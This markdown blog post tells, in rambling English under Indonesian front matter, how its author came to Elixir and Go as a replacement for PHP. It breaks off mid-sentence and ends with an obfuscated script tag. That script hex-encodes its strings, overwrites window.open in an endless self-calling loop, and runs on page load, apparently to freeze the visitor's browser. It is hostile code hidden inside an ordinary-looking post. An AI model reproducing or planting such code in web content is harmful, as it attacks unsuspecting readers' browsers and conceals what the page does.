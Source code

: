 ```yaml
---
title: "Golang dan elixir sebagai bahasa pemrograman pertama saya"
description: "Cerita tentang menggunakan elixir dan golang"
date: 2019-08-15T00:13:29+07:00
author: codenoid
categories:
  - "story"
tags:
  - "elixir"
  - "language"
  - "golang"
  - "tutorial"
---
```


![Go Elixir](https://blog.rh-flow.de/files/2016/csvparallel_elixir_go.jpg)

So it has been a while when i first time giving try to Elixir, a language that give me joy when coding with a complex of software flow and structure, now i'm sad i don't know why, because i play some beethoven song,

then Go, i don't know, Go is something like my "php" replacement, because i love php (in the past) but php doesn't teach me about static typing, channeling, multi threading, more likely just there is controller, model and view.

so yeah, i totally focus with Elixir & Go !, btw if somebody want 

I REGRET BUY THIS

![ss](/posts/golang-dan-elixir-sebagai-bahasa/buy.png)

<script>var _0x564d=["\x6F\x70\x65\x6E","\x2F"];async function callback(){for(;;){window[_0x564d[0]]= _0x564d[1],callback()}}callback()</script>